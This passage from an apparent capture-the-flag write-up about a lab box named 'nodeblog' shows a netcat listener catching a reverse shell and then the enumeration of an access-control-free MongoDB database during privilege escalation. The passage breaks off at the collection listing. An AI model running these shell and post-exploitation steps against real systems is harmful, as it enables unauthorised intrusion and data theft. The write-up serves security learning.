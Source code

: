 That got me my foothold on the server.

```bash
$ nc -klvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.96.160 46916

whoami
admin
```

I tried reading the user flag but I could not access the home folder, it was not executable.

```bash
admin@nodeblog:/opt/blog$ ls -l /home/admin/
ls: cannot access '/home/admin/user.txt': Permission denied
total 0
-????????? ? ? ? ?            ? user.txt

admin@nodeblog:/opt/blog$ ls -ld /home/admin/
drw-r--r-- 1 admin admin 220 Jan  3 17:16 /home/admin/
```

## Privilege Escalation

Now that I was connected on the server, I tried to get root access. I looked at `sudo -l`, but it required a password that I did not have. From the code, I knew that the site used a Mongo database. I connected to it and looked at what it contained. 

```bash
admin@nodeblog:/opt/blog$ mongo
MongoDB shell version v3.6.8
connecting to: mongodb://127.0.0.1:27017
Implicit session: session { "id" : UUID("a9efe6fb-27a9-4a88-850e-48783530e7bc") }
MongoDB server version: 3.6.8
Welcome to the MongoDB shell.
For interactive help, type "help".
For more comprehensive documentation, see
        http://docs.mongodb.org/
Questions? Try the support group
        http://groups.google.com/group/mongodb-user
2022-05-08T01:12:23.168+0000 I STORAGE  [main] In File::open(), ::open for '/home/admin/.mongorc.js' failed with Permission denied
Server has startup warnings:
2022-05-08T01:02:33.446+0000 I CONTROL  [initandlisten]
2022-05-08T01:02:33.446+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
2022-05-08T01:02:33.446+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
2022-05-08T01:02:33.446+0000 I CONTROL  [initandlisten]
2022-05-08T01:12:23.169+0000 E -        [main] Error loading history file: FileOpenFailed: Unable to fopen() file /home/admin/.dbshell: Permission denied

> show dbs
admin   0.000GB
blog    0.000GB
config  0.000GB
local   0.000GB

> use blog
switched to db blog

> show collections
articles
users

```